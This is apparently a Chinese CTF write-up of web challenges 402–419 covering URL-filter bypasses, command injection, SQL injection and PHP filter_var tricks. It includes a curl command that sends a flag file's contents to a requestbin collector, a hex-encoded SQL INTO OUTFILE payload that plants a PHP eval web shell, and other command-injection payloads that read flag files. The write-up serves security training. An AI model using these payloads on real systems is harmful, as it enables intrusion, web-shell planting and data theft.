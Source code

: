 # 其他

## web 402(parse_url过滤http)

- 用ftp代替，就是换个协议名

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676711526311-0d9528b7-51b5-49cd-a8b7-202d2d5b3ac0.png#averageHue=%23fefdfd&clientId=u3c4aa95e-20da-4&from=paste&height=202&id=u54280d33&originHeight=403&originWidth=999&originalType=binary&ratio=2&rotation=0&showTitle=false&size=43227&status=done&style=none&taskId=u6055f17d-b150-4ea3-940f-81dff65f7fb&title=&width=499.5)

## web 403(;结束命令)

### curl外带之又学一招

[http://requestbin.cn/](http://requestbin.cn/)
:::info
-d/--data <data>                  HTTP POST方式传送数据
:::

- 之前学过用burp作为服务器，现在可以用`requestbin.net`接收数据

### payload

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676713972467-4d20a26b-a582-45ed-ae32-37a0569640a9.png#averageHue=%23fefdfd&clientId=u3c4aa95e-20da-4&from=paste&height=151&id=ua049b903&originHeight=302&originWidth=1481&originalType=binary&ratio=2&rotation=0&showTitle=false&size=36844&status=done&style=none&taskId=u4e22b444-4414-4973-bdab-f5caac831d8&title=&width=740.5)

- 这里表示`host`得是个合法ip，即`127.0.0.1`这种
- 用`;`结束前面的命令，构造一个`curl`

```shell
url=http://227.220.220.21/1.php;curl -X POST -d "flag=`cat fl0g.php`" http://requestbin.cn:80/17c2ouo1
```

- 在网站中查看结果

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676714061634-f1203ee7-05ec-4b23-8370-b16f3a228661.png#averageHue=%23fbfbfb&clientId=u3c4aa95e-20da-4&from=paste&height=448&id=u227bdaf5&originHeight=895&originWidth=1776&originalType=binary&ratio=2&rotation=0&showTitle=false&size=120875&status=done&style=none&taskId=u33dddc5e-0bb9-488d-9242-8c53ebd78e2&title=&width=888)

## web 406(sql注入之16进制)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676716798727-f19ebe31-41fb-40d7-874e-01edb353e1d5.png#averageHue=%23fefdfd&clientId=u3c4aa95e-20da-4&from=paste&height=176&id=Az20x&originHeight=351&originWidth=901&originalType=binary&ratio=2&rotation=0&showTitle=false&size=33600&status=done&style=none&taskId=ubbe0d16d-0877-4ea5-aa7e-cd266068d9b&title=&width=450.5)

- `FILTER_VALIDATE_URL`要求得是合法的url，这个可以多测试一下，只要符合`: // /`就可以
- 猜可能links表是2列，`id`和`url`
- 用内联注释，对`<?php eval($_POST[1]);?>`进行16进制编码

```sql
url=0://1'/**/union/**/select/**/1,0x3c3f3d6576616c28245f504f53545b315d293b3f3e/**/into/**/outfile/**/"/var/www/html/2.php"%23
```

- 蚁剑连接数据库

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676717066041-fbb54504-5b3c-42ae-99e8-1f85ea6d4d8a.png#averageHue=%23efefee&clientId=u3c4aa95e-20da-4&from=paste&height=374&id=ua32d95be&originHeight=747&originWidth=1587&originalType=binary&ratio=2&rotation=0&showTitle=false&size=135120&status=done&style=none&taskId=u6982102c-a9ba-44ec-b735-577400ea72f&title=&width=793.5)

## web 407(论看文档的重要性)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676717894900-ede35d36-fc1a-4e30-bb9b-7c04f452978f.png#averageHue=%23fefefe&clientId=u3c4aa95e-20da-4&from=paste&height=215&id=u4b2f3d71&originHeight=430&originWidth=738&originalType=binary&ratio=2&rotation=0&showTitle=false&size=33212&status=done&style=none&taskId=u308114a8-faf9-4863-a752-c4009900f0b&title=&width=369)

- php中调用静态方法可以不用实例化，直接用`cafe::add`
- 其实我测试的时候add后是需要加`()`的

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676717988102-857fffe0-7858-4f4b-92bc-2fd6691357cd.png#averageHue=%23fbfbfb&clientId=u3c4aa95e-20da-4&from=paste&height=200&id=ub70b257a&originHeight=399&originWidth=1410&originalType=binary&ratio=2&rotation=0&showTitle=false&size=51424&status=done&style=none&taskId=u306c9163-a7f5-404b-b7c2-8118ca9f83a&title=&width=705)

- 要求得是合法的ip，翻文档发现ip可以是ipv6的地址

```php
cafe::add  //这种ipv6会认为是中间省略了0，正好调用了add()方法，我只能说这是真硬凑啊
```

## web 408(filter_var)

[Wh0ale’s Blog](https://wh0ale.github.io/) p神博客<br />[https://wh0ale.github.io/2019/08/21/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%8D%B1%E9%99%A9%E5%87%BD%E6%95%B0%E6%80%BB%E7%BB%93/](https://wh0ale.github.io/2019/08/21/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%E5%8D%B1%E9%99%A9%E5%87%BD%E6%95%B0%E6%80%BB%E7%BB%93/)
:::info
非法字符可以放在双引号里面绕过检测
:::

```php
<?php
var_dump(filter_var('is not allowed@example.com',FILTER_VALIDATE_EMAIL));
var_dump(filter_var('"is.\ not\ allowed"@example.com',FILTER_VALIDATE_EMAIL));
  ?>
```

## web 409(闭合php结束语句)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676878914446-2ead3033-6ef2-4e54-a61c-ae9164dcfbf9.png#averageHue=%23fefefd&clientId=uaa753941-d23a-4&from=paste&height=112&id=u3bae516c&originHeight=224&originWidth=749&originalType=binary&ratio=2&rotation=0&showTitle=false&size=25602&status=done&style=none&taskId=u2eba5fbc-ee60-4562-bb23-ddd342ca1b6&title=&width=374.5)

```php
email="flagsystem($_POST[1]);?>"@123.com
```

- 双引号是为了绕过`FILTER_VALIDATE_EMAIL`

## web 415(php函数名不区分大小写)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676881486132-3a70cce4-a760-44ea-9f1f-4d2c0e639b7a.png#averageHue=%23fefdfd&clientId=u867ddd79-7f5e-4&from=paste&height=160&id=u171020d8&originHeight=320&originWidth=630&originalType=binary&ratio=2&rotation=0&showTitle=false&size=24821&status=done&style=none&taskId=u361f1203-c7b8-45fd-ac63-8c9c9a62607&title=&width=315)

- 传入Getflag即可

## web 416(无需实例化调用类方法)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1676882569742-869716a0-f072-4baf-831d-12a1e8f4a9a6.png#averageHue=%23fefefd&clientId=u867ddd79-7f5e-4&from=paste&height=249&id=uae943bda&originHeight=498&originWidth=736&originalType=binary&ratio=2&rotation=0&showTitle=false&size=39610&status=done&style=none&taskId=u4dccd46d-5701-490c-99ee-d9e56c34051&title=&width=368)

- 直接用`ctf::flag`可以调用

## web 417(没看懂)

## web 418(;结束命令)

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677137087545-79f9b424-a05f-497f-b430-4b00f7032de5.png#averageHue=%23fefdfc&clientId=uc985661c-6374-4&from=paste&height=271&id=ufaf6af83&originHeight=542&originWidth=759&originalType=binary&ratio=2&rotation=0&showTitle=false&size=51056&status=done&style=none&taskId=u43b4e9e1-4625-4933-aeda-b1d337fc7bc&title=&width=379.5)

- 这里我被误导了，$key是字符串，不可能强等于`0x36d`
- 所以只能用else的语句
- 这里理解成`clear($clear)`是会执行`$clear`的命令
- post传值，用分号结束前面的命令

```php
die=0&clear=;echo `cat flag.php flag.txt`
```

## web 419(突破长度限制)

### 方法1：nl

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677138459998-0f7fc69c-ffb9-46c7-946e-052fc71577fe.png#averageHue=%23fefefd&clientId=ubdec205b-5117-4&from=paste&height=110&id=u160a5c93&originHeight=220&originWidth=374&originalType=binary&ratio=2&rotation=0&showTitle=false&size=15256&status=done&style=none&taskId=u1654ae89-802d-4304-a2e5-af40fd1909f&title=&width=187)

- 用`nl ../*`

### 方法2：突破长度限制

[挖洞经验 | 命令注入突破长度限制](https://www.sohu.com/a/208155480_354899)

#### ubuntu环境下测试(kali会有问题)

##### 命令组装

- 当在命令行输入`>echo``>hello`后，实际上相当于创建了2个文件(kali默认会在命令行中进入到这两个文件，需要`ctrl + c`退出)
- 此时再输入`*`，实际上会执行`echo hello`这个命令

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677156677080-2c1cd57a-74d1-47a9-acd3-2c4a21e94550.png#averageHue=%23212120&clientId=u1b5c8770-7e2a-4&from=paste&height=160&id=uab225e1f&originHeight=319&originWidth=773&originalType=binary&ratio=2&rotation=0&showTitle=false&size=51999&status=done&style=none&taskId=uc685b786-b477-488f-a4f4-1f7975b595f&title=&width=386.5)
:::info
当创建的文件名有函数时，`*`会执行命令
:::
**再测试一个**<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677156865744-9ffb1c0e-f165-4c71-87db-12fe944ad6be.png#averageHue=%2320201f&clientId=u1b5c8770-7e2a-4&from=paste&height=86&id=ucb291ee2&originHeight=172&originWidth=712&originalType=binary&ratio=2&rotation=0&showTitle=false&size=23825&status=done&style=none&taskId=u44578f35-0663-40e2-a067-05dcb467fea&title=&width=356)

- 也就是执行了`cat d.txt`

**组装ls -l命令**
:::info
当目录下包含`dir -l ls`这3个文件时，执行`dir -l ls a`会将`-l ls`写入`v`中，不会写`v`本身
:::

- 由于`-l`的排序会在`ls`前，所以只能倒序写入

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677157312737-b782a3b5-807a-417b-84f7-79664481dc68.png#averageHue=%23201f1f&clientId=u1b5c8770-7e2a-4&from=paste&height=83&id=ua7f4e7c0&originHeight=166&originWidth=735&originalType=binary&ratio=2&rotation=0&showTitle=false&size=27019&status=done&style=none&taskId=ud364799b-e8f8-4ce0-9b5c-865a48d8ba5&title=&width=367.5)

- 创建`sl`、`l-`、`dir`，此时`*`执行的是`dir l- sl`也就是查看目录，把`*`写入v中

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677157455421-965a2878-58ef-4cd8-a0c9-b7ca99ada91f.png#averageHue=%2320201f&clientId=u1b5c8770-7e2a-4&from=paste&height=148&id=u5cc7bc3d&originHeight=295&originWidth=754&originalType=binary&ratio=2&rotation=0&showTitle=false&size=39945&status=done&style=none&taskId=ucf41a571-ea7f-4d43-8bf6-15610e5f4a9&title=&width=377)

##### 反转命令

- 创建`rev`，此时`*v = rev v`，即对`v`中的字符串进行翻转
- 用`sh`执行`shell`命令

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677157778923-59743333-9119-408e-b7db-d2ce49c282d9.png#averageHue=%23252524&clientId=u1b5c8770-7e2a-4&from=paste&height=222&id=u3566d89f&originHeight=443&originWidth=856&originalType=binary&ratio=2&rotation=0&showTitle=false&size=63490&status=done&style=none&taskId=u1dd4b0b7-1209-4114-badd-5a52966d17b&title=&width=428)

- 这里的`*v`很神奇，它先寻找结尾是`v`的函数，接着寻找结尾是v的文件，我在`w`文件中写的是`t- sl`，并没有被执行

##### 控制顺序

- `ls -t`会根据文件创建的时间输出，比较省力
- <br />

##### 命令续行

- Linux中这种也是可以执行的
- `\\`在shell环境下表示命令拼接

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677159121982-ba1c4ca2-59e5-4c5a-bd7f-11972c4b0d66.png#averageHue=%23232222&clientId=u1b5c8770-7e2a-4&from=paste&height=164&id=u999b41e1&originHeight=327&originWidth=813&originalType=binary&ratio=2&rotation=0&showTitle=false&size=58228&status=done&style=none&taskId=u828193e7-9bc2-400f-b089-f0ad7a130d6&title=&width=406.5)